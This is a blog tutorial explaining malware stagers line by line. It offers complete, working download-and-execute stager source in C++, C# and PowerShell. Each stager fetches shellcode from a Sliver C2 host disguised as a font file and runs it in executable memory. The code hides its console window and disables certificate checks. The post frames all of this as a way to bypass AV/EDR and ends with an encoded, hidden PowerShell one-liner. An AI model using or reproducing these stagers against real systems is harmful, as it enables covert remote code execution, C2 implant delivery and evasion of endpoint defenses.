 ```yaml
---
title: "MALDEV"
classes: wide
header:  
  teaser: /assets/images/posts/c2/c2-teaser.jpg
  overlay_image: /assets/images/main/header3.jpg
  overlay_filter: 0.5
ribbon: Firebrick
excerpt: "MALDEV"
description: "MALDEV"
categories:
  - maldev
tags:
  - maldev
toc: false
---
```


# Malware Development explained line by line

Lets start with stagers!

You may ask: **Whats is a Stager ?**

> its a smaller payload that when executed, will call back to the C2 server to download and execute the second stage of the payload in-memory, which is where you actually get the beacon to execute.


Easy, just imagine a pizza - every slice of that pepperoni pizza is a stage. After you eat one slice, you move on to the next. Ahhaha!

> you'll never forget it

And a Stageless Dropper is like a Big Mac - you eat the whole thing. You Got the idea.

**When Should I use it ?**

We generally use it, when we want to get access to systems, but we cant directly run the malicious shellcode on the target machine, because it'll get detected and blocked by AV/EDR.

So, we can write droppers to try to bypass these defensive measures and execute the second stage of the payload later after the callback to our C2 (for example).




<style>
  .tooltip {
    position: relative;
    display: inline-block;
  }


  .tooltip .tooltiptext {
    visibility: hidden;
    width: 600px;
    max-width: 600px;
    background-color: #007bff; /* Set background color to blueish */
    color: #fff;
    text-align: left;
    border-radius: 2px;
    padding: 5px; /* Increase padding for better readability */
    position: absolute;
    top: 100%; /* Positions the tooltip below the code */
    left: 50%; /* Centers the tooltip horizontally */
    z-index: 1;
    opacity: 0;
    transition: opacity 0.3s;
    white-space: pre-wrap; /* Allow line breaks in long explanations */
  }

  .tooltip:hover .tooltiptext {
    visibility: visible;
    opacity: 1;
  }

/* Style for the chapter container */
  .chapters {
    margin: 10px;
    padding: 10px;
    border: 1px solid #333;
    border-radius: 15px; 
    font-family: 'Arial', sans-serif;
    background-color: #1a1a1a;
    color: #ddd;
    width: calc(100% - 40px);
  }

  /* Style for the details summary */
  details summary {
    cursor: pointer;
    font-weight: bold;
    background-color: #333;
    padding: 12px;
    border: 1px solid #222;
    border-radius: 8px; 
    margin-bottom: 10px;
  }

  /* Style for the details content */
  details .content {
    margin: 20px 0;
    padding: 20px;
    border: 1px solid #222;
    border-radius: 8px; 
    background-color: #090a08;
  }

</style>


<div class="chapters">
  <details>
    <summary>C++ Stager</summary>    
    <div class="content" markdown="1">
 

<pre>
<code>
<span class="tooltip">#include &lt;windows.h&gt;<span class="tooltiptext" style="bottom: calc(100% + 25px);">Includes necessary header file for Windows API functions.</span></span>
<span class="tooltip">#include &lt;wininet.h&gt;<span class="tooltiptext">Includes necessary header file for internet-related functions.</span></span>
<span class="tooltip">#include &lt;stdio.h&gt;<span class="tooltiptext">Includes necessary header file for standard input/output operations.</span></span>

<span class="tooltip">#pragma comment (lib, "Wininet.lib")<span class="tooltiptext">Directs the linker to include the Wininet library during compilation.</span></span>

<span class="tooltip">struct Shellcode {<span class="tooltiptext">Defines a structure named Shellcode to hold shellcode data and length.</span></span>
    <span class="tooltip">byte* data;<span class="tooltiptext">Pointer to byte representing the shellcode data.</span></span>
    <span class="tooltip">DWORD len;<span class="tooltiptext">DWORD representing the length of the shellcode.</span></span>
<span class="tooltip">};<span class="tooltiptext">End of Shellcode structure definition.</span></span>

<span class="tooltip">Shellcode Download(LPCWSTR host, INTERNET_PORT port);<span class="tooltiptext">Prototype for the Download function to retrieve shellcode from a server.</span></span>
<span class="tooltip">void Execute(Shellcode shellcode);<span class="tooltiptext">Prototype for the Execute function to execute shellcode.</span></span>

<span class="tooltip">int main() {<span class="tooltiptext">Entry point of the program.</span></span>
    <span class="tooltip">::ShowWindow(::GetConsoleWindow(), SW_HIDE); <span class="tooltiptext">Hides the console window. If u dont wanna hide, just comment this line</span></span>

    <span class="tooltip">Shellcode shellcode = Download(L"sliver.labnet.local", 80);<span class="tooltiptext">Downloads shellcode from the specified server.</span></span>
    <span class="tooltip">Execute(shellcode);<span class="tooltiptext">Executes the downloaded shellcode.</span></span>

    <span class="tooltip">return 0;<span class="tooltiptext">Indicates successful termination of the program.</span></span>
<span class="tooltip">}</span>

<span class="tooltip">Shellcode Download(LPCWSTR host, INTERNET_PORT port) {<span class="tooltiptext">Downloads shellcode from a server.</span></span>
    <span class="tooltip">HINTERNET session = InternetOpen(<span class="tooltiptext">Opens an internet connection.</span></span>
        <span class="tooltip">L"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36",<span class="tooltiptext">Specifies the user agent for the connection.</span></span>
        <span class="tooltip">INTERNET_OPEN_TYPE_PRECONFIG,<span class="tooltiptext">Specifies the access type for the internet session.</span></span>
        <span class="tooltip">NULL,<span class="tooltiptext">Specifies the proxy server.</span></span>
        <span class="tooltip">NULL,<span class="tooltiptext">Specifies the context value.</span></span>
        <span class="tooltip">0);<span class="tooltiptext">Specifies additional options.</span></span>

    <span class="tooltip">HINTERNET connection = InternetConnect(<span class="tooltiptext">Establishes a connection to the specified server.</span></span>
        <span class="tooltip">session,<span class="tooltiptext">Handle to the internet session.</span></span>
        <span class="tooltip">host,<span class="tooltiptext">Specifies the host name.</span></span>
        <span class="tooltip">port,<span class="tooltiptext">Specifies the port number.</span></span>
        <span class="tooltip">L"",<span class="tooltiptext">Specifies the user name for authentication.</span></span>
        <span class="tooltip">L"",<span class="tooltiptext">Specifies the password for authentication.</span></span>
        <span class="tooltip">INTERNET_SERVICE_HTTP,<span class="tooltiptext">Specifies the service to connect to.</span></span>
        <span class="tooltip">0,<span class="tooltiptext">Specifies additional options.</span></span>
        <span class="tooltip">0);<span class="tooltiptext">Specifies additional flags.</span></span>

    <span class="tooltip">HINTERNET request = HttpOpenRequest(<span class="tooltiptext">Opens an HTTP request handle.</span></span>
        <span class="tooltip">connection,<span class="tooltiptext">Handle to the internet connection.</span></span>
        <span class="tooltip">L"GET",<span class="tooltiptext">Specifies the HTTP method.</span></span>
        <span class="tooltip">L"/fontawesome.woff",<span class="tooltiptext">Specifies the resource to request.</span></span>
        <span class="tooltip">NULL,<span class="tooltiptext">Specifies additional headers.</span></span>
        <span class="tooltip">NULL,<span class="tooltiptext">Specifies additional headers.</span></span>
        <span class="tooltip">0,<span class="tooltiptext">Specifies additional flags.</span></span>
        <span class="tooltip">0);<span class="tooltiptext">Specifies additional flags.</span></span>

    <span class="tooltip">WORD counter = 0;<span class="tooltiptext">Initializes a counter for the retry mechanism.</span></span>
    <span class="tooltip">while (!HttpSendRequest(request, NULL, 0, 0, 0)) {<span class="tooltiptext">Retries HTTP request until successful or max attempts reached.</span></span>
        <span class="tooltip">counter++;<span class="tooltiptext">Increments the counter.</span></span>
        <span class="tooltip">Sleep(3000);<span class="tooltiptext">Pauses execution for 3 seconds.</span></span>
        <span class="tooltip">if (counter >= 3) {<span class="tooltiptext">Checks if max attempts reached.</span></span>
            <span class="tooltip">exit(0);<span class="tooltiptext">Exits the program if max attempts reached.</span></span>
        <span class="tooltip">}<span class="tooltiptext">End of if statement.</span></span>
    <span class="tooltip">}<span class="tooltiptext">End of while loop.</span></span>

    <span class="tooltip">DWORD bufSize = BUFSIZ;<span class="tooltiptext">Initial buffer size for reading response.</span></span>
    <span class="tooltip">byte* buffer = new byte[bufSize];<span class="tooltiptext">Allocates memory for response buffer.</span></span>

    <span class="tooltip">DWORD capacity = bufSize;<span class="tooltiptext">Initial capacity for payload buffer.</span></span>
    <span class="tooltip">byte* payload = (byte*)malloc(capacity);<span class="tooltiptext">Allocates memory for payload.</span></span>

    <span class="tooltip">DWORD payloadSize = 0;<span class="tooltiptext">Initial size of payload.</span></span>

    <span class="tooltip">while (true) {<span class="tooltiptext">Loop to read response and build payload.</span></span>
        <span class="tooltip">DWORD bytesRead;<span class="tooltiptext">Variable to store number of bytes read.</span></span>

        <span class="tooltip">if (!InternetReadFile(request, buffer, bufSize, &bytesRead)) {<span class="tooltiptext">Reads data from an internet file.</span></span>
            <span class="tooltip">exit(0);<span class="tooltiptext">Exits the program if reading fails.</span></span>
        <span class="tooltip">}<span class="tooltiptext">End of if statement.</span></span>

        <span class="tooltip">if (bytesRead == 0) break;<span class="tooltiptext">Breaks loop if no more data to read.</span></span>

        <span class="tooltip">if (payloadSize + bytesRead > capacity) {<span class="tooltiptext">Checks if payload buffer needs resizing.</span></span>
            <span class="tooltip">capacity *= 2;<span class="tooltiptext">Doubles the capacity of the payload buffer.</span></span>
            <span class="tooltip">byte* newPayload = (byte*)realloc(payload, capacity);<span class="tooltiptext">Resizes the payload buffer.</span></span>
            <span class="tooltip">payload = newPayload;<span class="tooltiptext">Assigns the resized payload buffer.</span></span>
        <span class="tooltip">}<span class="tooltiptext">End of if statement.</span></span>

        <span class="tooltip">for (DWORD i = 0; i < bytesRead; i++) {<span class="tooltiptext">Iterates over the read bytes.</span></span>
            <span class="tooltip">payload[payloadSize++] = buffer[i];<span class="tooltiptext">Copies the read bytes into the payload buffer.</span></span>
        <span class="tooltip">}<span class="tooltiptext">End of for loop.</span></span>
        
    <span class="tooltip">}<span class="tooltiptext">End of while loop.</span></span>
    <span class="tooltip">byte* newPayload = (byte*)realloc(payload, payloadSize);<span class="tooltiptext">Resizes the payload buffer to fit the actual data.</span></span>

    <span class="tooltip">InternetCloseHandle(request);<span class="tooltiptext">Closes the HTTP request handle.</span></span>
    <span class="tooltip">InternetCloseHandle(connection);<span class="tooltiptext">Closes the internet connection handle.</span></span>
    <span class="tooltip">InternetCloseHandle(session);<span class="tooltiptext">Closes the internet session handle.</span></span>

    <span class="tooltip">struct Shellcode out;<span class="tooltiptext">Defines a variable of type Shellcode to hold the downloaded shellcode.</span></span>
    <span class="tooltip">out.data = payload;<span class="tooltiptext">Assigns the payload to the Shellcode variable.</span></span>
    <span class="tooltip">out.len = payloadSize;<span class="tooltiptext">Assigns the payload size to the Shellcode variable.</span></span>
    <span class="tooltip">return out;<span class="tooltiptext">Returns the downloaded shellcode.</span></span>
<span class="tooltip">}<span class="tooltiptext">End of Download function.</span></span>

<span class="tooltip">void Execute(Shellcode shellcode) {<span class="tooltiptext">Function to execute the downloaded shellcode.</span></span>
    <span class="tooltip">void* exec = VirtualAlloc(0, shellcode.len, MEM_COMMIT, PAGE_EXECUTE_READWRITE);<span class="tooltiptext">Allocates memory with execute permissions.</span></span>
    <span class="tooltip">memcpy(exec, shellcode.data, shellcode.len);<span class="tooltiptext">Copies the shellcode to the allocated memory.</span></span>
    <span class="tooltip">((void(*)())exec)();<span class="tooltiptext">Casts the allocated memory as a function and executes it.</span></span>
<span class="tooltip">}<span class="tooltiptext">End of Execute function.</span></span>
</code>
</pre>

<script>
// Add event listeners to tooltip triggers
document.querySelectorAll('.tooltip').forEach(item => {
  item.addEventListener('mouseenter', event => {
    const tooltip = event.target.querySelector('.tooltiptext');
    tooltip.style.visibility = 'visible';
    tooltip.style.opacity = '1';
  });

  item.addEventListener('mouseleave', event => {
    const tooltip = event.target.querySelector('.tooltiptext');
    tooltip.style.visibility = 'hidden';
    tooltip.style.opacity = '0';
  });
});
</script>

  </div>
  </details>

  <details>
    <summary>C# Stager</summary>    
    <div class="content" markdown="1">



<pre>
<code>
<span class="tooltip">using System;<span class="tooltiptext" style="bottom: calc(100% + 25px);">Imports the System namespace, providing fundamental classes and base classes.</span></span>
<span class="tooltip">using System.Net;<span class="tooltiptext">Imports the System.Net namespace, providing classes for networking, including the WebClient class.</span></span>
<span class="tooltip">using System.Runtime.InteropServices;<span class="tooltiptext">Imports the System.Runtime.InteropServices namespace, providing types useful for interoperation between managed and unmanaged code.</span></span>

<span class="tooltip">namespace Sliver_stager {<span class="tooltiptext">Declares a namespace called Sliver_stager to encapsulate related types.</span></span>
    <span class="tooltip">class Program {<span class="tooltiptext">Declares a class named Program.</span></span>
        <span class="tooltip">public static void Main(String[] args) {<span class="tooltiptext">Declares the entry point of the program.</span></span>
            <span class="tooltip">byte[] shellcode = Download("http://sliver.labnet.local/fontawesome.woff");<span class="tooltiptext">Downloads shellcode from the specified URL.</span></span>
            <span class="tooltip">Execute(shellcode);<span class="tooltiptext">Executes the downloaded shellcode.</span></span>
            <span class="tooltip">return;<span class="tooltiptext">Indicates successful termination of the program.</span></span>
        <span class="tooltip">}<span class="tooltiptext">End of Main method.</span></span>
        
        <span class="tooltip">private static byte[] Download(string url) {<span class="tooltiptext">Declares a method to download shellcode from a URL.</span></span>
            <span class="tooltip">ServicePointManager.ServerCertificateValidationCallback += (sender, certificate, chain, sslPolicyErrors) => true;<span class="tooltiptext">Disables SSL certificate validation.</span></span>
            <span class="tooltip">System.Net.WebClient client = new System.Net.WebClient();<span class="tooltiptext">Creates a WebClient instance for downloading data.</span></span>
            <span class="tooltip">byte[] shellcode = client.DownloadData(url);<span class="tooltiptext">Downloads shellcode data from the specified URL.</span></span>
            <span class="tooltip">return shellcode;<span class="tooltiptext">Returns the downloaded shellcode.</span></span>
        <span class="tooltip">}<span class="tooltiptext">End of Download method.</span></span>
        

        <span class="tooltip">[DllImport("kernel32")]<span class="tooltiptext">Declares a method imported from the kernel32 DLL.</span></span>
        <span class="tooltip">static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);<span class="tooltiptext">Defines the VirtualAlloc method for memory allocation.</span></span>
        
        <span class="tooltip">[DllImport("kernel32")]<span class="tooltiptext">Declares a method imported from the kernel32 DLL.</span></span>
        <span class="tooltip">static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);<span class="tooltiptext">Defines the CreateThread method for thread creation.</span></span>
        
        <span class="tooltip">[DllImport("kernel32.dll")]<span class="tooltiptext">Declares a method imported from the kernel32 DLL.</span></span>
        <span class="tooltip">static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);<span class="tooltiptext">Defines the WaitForSingleObject method for thread synchronization.</span></span>
        
        <span class="tooltip">private static void Execute(byte[] shellcode) {<span class="tooltiptext">Declares a method to execute the downloaded shellcode.</span></span>
            <span class="tooltip">IntPtr addr = VirtualAlloc(IntPtr.Zero, (UInt32)shellcode.Length, 0x1000, 0x40);<span class="tooltiptext">Allocates memory for the shellcode.</span></span>
            <span class="tooltip">Marshal.Copy(shellcode, 0, (IntPtr)(addr), shellcode.Length);<span class="tooltiptext">Copies the shellcode to the allocated memory.</span></span>
            
            <span class="tooltip">IntPtr hThread = IntPtr.Zero;<span class="tooltiptext">Declares a handle for the thread.</span></span>
            <span class="tooltip">IntPtr threadId = IntPtr.Zero;<span class="tooltiptext">Declares a variable for the thread ID.</span></span>
            <span class="tooltip">hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, threadId);<span class="tooltiptext">Creates a new thread to execute the shellcode.</span></span>
            
            <span class="tooltip">WaitForSingleObject(hThread, 0xFFFFFFFF);<span class="tooltiptext">Waits for the thread to finish execution.</span></span>
        
            <span class="tooltip">return;<span class="tooltiptext">Indicates successful completion of the method.</span></span>
        <span class="tooltip">}<span class="tooltiptext">End of Execute method.</span></span>
    <span class="tooltip">}<span class="tooltiptext">End of Program class.</span></span>
<span class="tooltip">}<span class="tooltiptext">End of Sliver_stager namespace.</span></span>
</code>
</pre>


  </div>
  </details>

  <details>
    <summary>Powershell Stager</summary>    
    <div class="content" markdown="1">



<pre>
<code>
<span class="tooltip">$Win32 = @"<span class="tooltiptext" style="bottom: calc(100% + 25px);">Defines a PowerShell Here-String that contains C# code.</span></span>
<span class="tooltip">using System;<span class="tooltiptext">Imports the System namespace.</span></span>
<span class="tooltip">using System.Runtime.InteropServices;<span class="tooltiptext">Imports the System.Runtime.InteropServices namespace.</span></span>
<span class="tooltip">public class Win32 {<span class="tooltiptext">Declares a public class named Win32.</span></span>
<span class="tooltip">[DllImport("kernel32")]<span class="tooltiptext">Declares a method imported from the kernel32 DLL.</span></span>
<span class="tooltip">public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);<span class="tooltiptext">Defines the VirtualAlloc method for memory allocation.</span></span>
<span class="tooltip">[DllImport("kernel32", CharSet=CharSet.Ansi)]<span class="tooltiptext">Declares a method imported from the kernel32 DLL with CharSet set to Ansi.</span></span>
<span class="tooltip">public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);<span class="tooltiptext">Defines the CreateThread method for thread creation.</span></span>
<span class="tooltip">[DllImport("kernel32.dll", SetLastError=true)]<span class="tooltiptext">Declares a method imported from the kernel32 DLL with SetLastError set to true.</span></span>
<span class="tooltip">public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);<span class="tooltiptext">Defines the WaitForSingleObject method for thread synchronization.</span></span>
<span class="tooltip">}<span class="tooltiptext">End of Win32 class definition.</span></span>
<span class="tooltip">"@<span class="tooltiptext">End of PowerShell Here-String.</span></span>
<span class="tooltip">Add-Type $Win32<span class="tooltiptext">Adds the C# code to the PowerShell session, creating the Win32 class.</span></span>
<span class="tooltip">$shellcode = (New-Object System.Net.WebClient).DownloadData("http://sliver.labnet.local/fontawesome.woff")<span class="tooltiptext">Downloads shellcode from the specified URL using WebClient.</span></span>
<span class="tooltip">if ($shellcode -eq $null) {Exit};<span class="tooltiptext">Exits the script if shellcode is not downloaded successfully.</span></span>
<span class="tooltip">$size = $shellcode.Length<span class="tooltiptext">Gets the length of the downloaded shellcode.</span></span>

<span class="tooltip">[IntPtr]$addr = [Win32]::VirtualAlloc(0, $size, 0x1000, 0x40);<span class="tooltiptext">Allocates memory for the shellcode using the VirtualAlloc method from the Win32 class.</span></span>
<span class="tooltip">[System.Runtime.InteropServices.Marshal]::Copy($shellcode, 0, $addr, $size)<span class="tooltiptext">Copies the shellcode to the allocated memory.</span></span>
<span class="tooltip">$thandle = [Win32]::CreateThread(0, 0, $addr, 0, 0, 0);<span class="tooltiptext">Creates a new thread to execute the shellcode using the CreateThread method from the Win32 class.</span></span>
<span class="tooltip">[Win32]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")<span class="tooltiptext">Waits for the thread to finish executing the shellcode.</span></span>
</code>
</pre>


> U can convert the code to base64

if u r on Linux:
```
cat pw_stager.ps1 | iconv --to-code UTF-16LE | base64 -w 0
```

Then just execute as an One Liner:
```
powershell.exe -nop -w hidden -Enc JABXA...QAKAA==
```

  </div>
  </details>
</div>



